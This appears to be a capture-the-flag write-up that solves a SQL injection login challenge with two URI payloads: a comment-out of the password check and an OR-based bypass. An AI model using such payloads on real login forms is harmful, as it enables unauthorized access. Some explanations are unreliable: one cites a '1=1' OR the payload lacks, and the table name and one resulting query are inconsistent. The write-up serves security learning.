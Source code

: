 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 2
tags: SQLi
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/a20d5977-f907-4582-8e92-88ff3b574002)

We are provided with the SQL query:

```sql
SELECT id FROM prob_cobolt WHERE id='{$_GET[id]}' AND pw=md5('{$_GET[pw]}')`
```

This time the application requires us to query for the id `admin`.

### Method 1
In order to make the result of this query `True`, we can provide the following URI parameter:

```
?id=admin' -- -
```

The resultant query then becomes:

```sql
SELECT id FROM prob_cobalt WHERE id='admin' -- -' AND pw=md5('')

## Queried part:
SELECT id FROM prob_cobalt WHERE id='admin'

## Commented part:
AND pw=md5('')
```

Since 1=1 is always true, the result of the `OR` operation will always be `True`.

![2](https://github.com/Kunull/Write-ups/assets/110326359/0e1140d5-c226-41e0-9aee-b022a2b9a28f)


### Method 2
We can also make teh statement true using the following URI parameter:

```
?pw=') OR (id='admin
```

The resultant query will be:

```sql
SELECT id FROM prob_cobalt WHERE id='admin' AND pw=md5('') OR (id='admin')
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/5c5d2723-8a7e-4ac1-81c4-67d5084b7506)
